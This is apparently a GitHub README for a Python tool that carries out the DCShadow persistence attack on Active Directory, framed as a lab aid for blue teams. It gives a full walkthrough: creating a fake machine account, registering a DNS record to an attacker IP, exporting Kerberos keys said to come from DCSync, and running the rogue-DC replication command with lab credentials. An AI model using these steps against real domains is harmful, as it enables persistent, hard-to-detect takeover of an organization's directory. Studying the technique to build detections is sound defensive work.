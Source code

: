 > [!WARNING]
> This is meant for lab testing, for blue teams to work on identifying IoCs, event types, and behavior.
> Also, this tool is provided as-is. No support is planned apart from standard review on pull requests you may want to create. 
> Don't run this from a Windows host. Do it from linux, or from a VM (to avoid RPC services conflicts).

# Background

This project is meant to be a pure-python alternative to Mimikatz's dcshadow technique. This includes a custom Impacket with modified `crypto`, `gssapi` and `drsuapi` among other things. 

[DCShadow](https://www.thehacker.recipes/ad/persistence/dcshadow/) is a powerful persistence technique that could be considered as a transport for other techniques such as [SID history](https://www.thehacker.recipes/ad/persistence/sid-history), [KRBTGT RBCD](https://www.thehacker.recipes/ad/persistence/kerberos/delegation-to-krbtgt), [ACE abuse](https://www.thehacker.recipes/ad/persistence/dacl), and more.

This tool could be a foundation for a more versatile AD pertistence framework, that could be used by our community to raise our global maturity on the matter.

## 0. Install

```bash
# container
podman build -t dcshadow .
podman run -it --name dcshadow dcshadow
$ python3 dcshadow.py -h

# on host
python3 -m venv venv
source ./venv/bin/activate
pip3 install -r ./requirements.txt
pip3 install ./impacket
```

# Proof of Concept in Lab

> [!NOTE]
> This tool was tested on [GOAD](https://github.com/Orange-Cyberdefense/GOAD).

## 1. Create machine account

This machine will be registered as a domain controller for the duration of the replication, and will be unregistered at the end.

```bash
venv/bin/addcomputer.py -computer-name 'fake701$' -computer-pass '123soleil!' -method LDAPS -dc-host "kingslanding.sevenkingdoms.local" -dc-ip "192.168.10.10" -domain-netbios "sevenkingdoms" "sevenkingdoms.local"/"tyron.lannister":"Alc00L&S3x" -debug
```

> [!WARNING]
> adcomputer.py is modified to set `msDS-SupportedEncryptionTypes` to `0x1f`. Latest tests seem to raise a constraint violation.
> ```
> [+] Impacket Library Installation Path: /workspace/adpersist/venv/lib/python3.11/site-packages/impacket
> Traceback (most recent call last):
>  File "/workspace/adpersist/venv/bin/addcomputer.py", line 248, in run_ldaps
>    raise Exception(str(ldapConn.result))
> Exception: {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> [-] {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> ```
> For now, use the regular addcomputer.py script from Impacket, and modify `msDS-SupportedEncryptionTypes` manually through ADSI edit.

## 2. DNS entry for the machine

This is needed for the legit DC to know how to reach the rogue DC and avoid `ERROR_DS_DNS_LOOKUP_FAILURE` errors.

```bash
dnstool.py -u "sevenkingdoms.local"/"tyron.lannister" -p "Alc00L&S3x" --record 'fake701' --action add --data "$ATTACKER_IP" "kingslanding.sevenkingdoms.local"
```

> [!TIP]
> If the command doesn't work for some reason, add the DNS entry manually through the DNS tools on the domain controller.

## 3. Rogue DC credentials

When we started developping this tool, we were using hardcoded credentials in an .env file, loaded in the `gss_kerberos_ap_req` function in the `dcshadow/utils/server/RpcServer.py` file.

This clearly needs an upgrade. The password of the rogue DC account could be passed as CLI argument and kerberos keys calculated. Krbrelayx does that already, dacledit.py as well, it needs copy-pasting.

For now you need to export the Kerberos keys as environment variables.

It should look like this:

```
export RC4=652c1be004ef335aa218cfed8e9297fc
export AES128=710b676a1fec1c68edc44b759aace44a
export AES256=bc7564c2e7a2bc740c277ec39f8c5d81e03df8001b7d670f5b46c177242a8bbc
```

Those keys can be retrieve with through a [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) attack.

## 4. DCShadow (JSON file)

```bash
python3 dcshadow.py --json repl.json --domain "sevenkingdoms.local" --user "cersei.lannister" --password "il0vejaime" --dc-ip "192.168.10.10" --legit-dc-fqdn "kingslanding.sevenkingdoms.local" --rogue-dc-name "fake701"
```

> [!TIP]
> In this case, a `repl.json` file is used to specify the target objects and attributes. Alternatively, the tool supports inline options (e.g., `--object`, `--attribute`, and `--value`). 

# Common errors

## DRSReplicaAdd: timed out

If the DRSReplicaAdd times out, it probably is a networking/firewall issue on the machine running dcshadow.py (the rogue DC), that's probably not allowing incoming trafic on 135/TCP (epmapper) and 1337/TCP (or dynamic port if implemented in the future, for drsuapi)

## DRSReplicaAdd: rpc_s_access_denied

You'd need to run Wireshark on the legit domain controller, but the most probably root cause is you're trying to run this on a Windows machine, meaning when the legit DC asks your rogue DC's epmapper for the port of the drsuapi endpoint, the answer is empty since it's your own windows machine's epmapper that's responding and not our custom one. 

